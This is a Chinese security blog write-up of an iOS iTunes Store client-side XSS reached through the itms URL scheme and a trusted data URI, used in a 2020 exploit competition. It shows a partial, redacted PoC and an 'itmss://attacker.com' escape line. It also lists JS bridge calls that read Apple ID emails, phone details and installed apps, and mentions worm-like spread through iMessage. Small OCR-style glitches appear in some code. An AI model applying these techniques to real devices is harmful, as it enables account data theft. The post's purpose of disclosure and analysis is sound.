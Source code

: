 ```yaml
---
title: 客户端XSS
top_img: https://s2.loli.net/2022/07/20/tOoYKRE7fMVdb6x.png
cover: https://developer.apple.com/xcode/images/screen-lighter-large_2x.png
date: 2022-07-21 11:25:16
tags:
    - 安全
    - 漏洞
    - 移动应用
    - iOS
categories: 安全
---
```


# PAC

自从 iPhone Xs 使用了 A12 芯片正式加入了 PAC，包括老牌的 Pwn2Own 在内的各种 0day 竞赛上就没有出现过成功的挑战，直到 2020 年的天府杯。当时的蚂蚁安全和 360 政企安全分别用两套完全不同的方案实现了远程攻击，在搭载了 iOS 14.2 的系统上通过 Safari 浏览器作为入口，绕过浏览器沙箱执行任意代码并窃取敏感信息。

绝大多数的 full chain exploit 都是先获取沙箱内任意代码执行，再逃逸沙箱；本文用到链条非常特殊，先绕过沙箱向一个系统自带 App 注入任意 javascript 代码，然后直接在 app 中获取完全的 shellcode 执行，也就是和 App 同等的权限，可以访问 Apple ID、通讯录、摄像头等敏感的信息。

更为有意思的是，在这个 js 环境中，不仅兼容已有的任何一个 WebKit 漏洞利用（无论是否是 JIT 类型的漏洞），还额外引入了攻击面。靠着额外的攻击面结合多个系统安全机制的绕过，最终可以实现任意代码执行。

一个漏洞非常有意思，本质上是一个客户端的 XSS。但要找到这个 XSS，不仅 fuzz 行不通，哪怕是代码审计也得看二进制代码，也就是要求同时具备逆向工程和 web 漏洞的背景知识。光是反编译 dyld_shared_cache 就能劝退一大批人。

输入向量是大家熟悉的 URL scheme。URL scheme 可以从浏览器跳转到本地 app，在跳转前会提示用户。但 iOS 在代码里硬编码了一个信任名单，可以免确认跳转：
### Allow List of MobileSafari
``` obj-c
bool -[_SFNavigationResult isRedirectToAppleServices(_SFNavigationResult
*self, SEL a2)
{
bundle = self->_externalApplication.bundleIdentifier;
return [bundle isEqualToString:@"com.apple.AppStore"]
[bundle isEqualToString:@"com.apple.AppStore"]
[bundle isEqualToString:@"com.apple.MobileStore"]
[bundle isEqualToString:@"com.apple.Music"] 
[bundle isEqualToString:@"com.apple.news"]
}
```
这给漏洞的利用带来了很大便利。

早在 2014 年就有韩国黑客 lokihardt 在 Pwn2Own 上用过这个攻击面，通过一个特殊的 URL 在本地 app 打开了任意网址，结合另一个 WebKit 的 Use-After-Free 漏洞即可在沙箱外运行任意代码。第一步的逃逸很简单：

>itmss://attacker.com

当时并没有限制域名，直接给一个 URL 就能打开。这个问题就是CVE-2014-8840。

之后 iOS 加入了域名白名单。每次启动 iTunes Store 时都会拉取一个 XML 配置文件，只有后缀满足其中 trustedDomains 列表才会打开。然而紧接着又被打了一次，因为 lokihardt 找了个信任域名的 DOM xss。

一开始准备时也没想到真要搞 iOS。当时同事搞定了一个 iOS 和 mac 通用的 WebKit 读写利用WebAudio 组件，后来用在 macOS 的项目上，需要过沙箱，我就想起这个免确认跳转逃逸的点：
>its.detect.openltunes

然而测试发现 mac 上的应用已经换上了 WKWebView，意味着即使跳转过去任意代码执行，权限和 Safari 的无异。

### 全局开启 iOS/Mac 的WebView调试

全局调试工具起到很大用处。随手在控制台里测试了一些代码就找到了一个 UAF。开始逆向代码，又发现 WebView 里隐藏的各种强大的接口，可以直接弹计算器。最后考虑效果最佳化，还是完全使用 iTunes 的漏洞完成了 iOS 的项目利用测试。

一开始的思路放在信任域的 XSS 上，但被动扫描器看了几天也没进展。又掏出 IDA 在漫天的代码里看，终于在这几个方法里发现了彩蛋。

· -[SUStoreController handleApplicationURL:]
· -[NSURL storeURLType]
· -[SUStoreController _handleAccountURL:]
· -[SKUIURL initWithURL:]

iTunes Store 本地有一个逻辑，当 querystring 出现特殊的参数时，URL 的 hostname 就会被忽略掉，而是直接取出参数里的第二个 url，在一个浮层里加载：
``` url
itms://<马赛克>&url=http://www.apple.com
```
在这里 URL 仍然具有域名信任检查，但已不要求使用 https，可以中间人了。让人不解的是，在反编译代码里发现了一段神奇的逻辑。当参数是一个 data URI 时，同样认为这是一个受信任的域。

data URI 可以直接插入任意 html，所以这个点就变成了一个反射型 XSS，还是必须要逆向才能找到的 XSS。

程序还有一个逻辑是会尝试对 querystring 的参数重新赋值，最终的 data URI 永远会被贴上一个额外的问号字符。如果使用 base64 编码，payload 就会被破坏掉；而 text/plain 不受影响，只是会在 body 结尾多出来一个字符而已。

``` javascript
String.prototype.toDataURI = function() {
  return 'data:text/html;,' + encodeURIComponent(this).replace(/[!'()*]/g, escape);
}

function payload() {  
  iTunes.alert('gotcha'); // do ya thing
}

const data = `<script type="application/javascript">(${payload})()<\/script>`.toDataURI()
const url = new URL('itms://<redacted>');
// part of the PoC is redacted to prevent abuse
url.searchParams.set('url', data);
location = url
```

因此通过以上简单的参数构造，就可以生成这样的一个特殊的 itms URL，能从 Safari 直接跳转到本地应用并执行任意 js。

由于漏洞从 iOS 3 引入，直到 iOS 14.4 才被修复，影响范围过于夸张，以上提供的 PoC 并不是完整的。一些关键参数已被删除。

在 iOS 14 上，这个 iTunes 具有 dynamic-codesigning 权限。有一些 iOS 程序员会误认为只有 WKWebView 才能使用 just-in-time 优化，但是实际上这只跟 JavaScriptCore 当前所在进程是否有特殊的 entitlement 来控制。

这样一来这个 XSS 之后进入了一个特殊的环境。渲染的控件叫 SUWebView，是过时的 UIWebView 的子类，没有独立的渲染器进程。然而这个环境允许 JIT，所以有机会加载任意 shellcode。任意一个有效的 WebKit 的漏洞都可以在这个 WebView 被利用。

除此之外，SUWebView 本身用的 JavaScript bridge 引入了新的攻击面，至少在这一步可以直接用 js 获取相当多的信息。

SUWebView 使用的是过时的 WebScripting API，将 SUScriptInterface 类的方法导出到 js 上下文中。这些 API 被放在全局作用域的 iTunes 命名空间里。
``` obj-c
Tunes.systemVersion() //获取系统版本号
iTunes.primaryAccount?.identifier //获取 App Store 账号的邮箱
iTunes.primaryiCloudAccount?.identifier //获取 iCloud 账号的邮箱
iTunes.diskSpaceAvailable() //存储可用空间
iTunes.telephony //电话号码、运营商等信息
iTunes.installedSoftwareApplications //所有已安装的 app 信息
```
另外从这个 WebView 向任意域名发起 HTTP 请求，都会带上额外的 AppStore 认证信息，包括 icloud-dsid, x-mme-client-info, x-apple-adsid, x-apple-i-md-m, x-apple-i-md 等。

利用上述漏洞可以是的Safari绕过验证程序跳转到任意app执行一次触摸操作，多次执行便可通过iMessage向他人发送恶意代码实现传播。

``` javascript
const app = iTunes.softwareApplicationWithBundleID_('com.apple.calculator')app.launchWithURL_options_suspended_('calc://1337', {}, false);
```

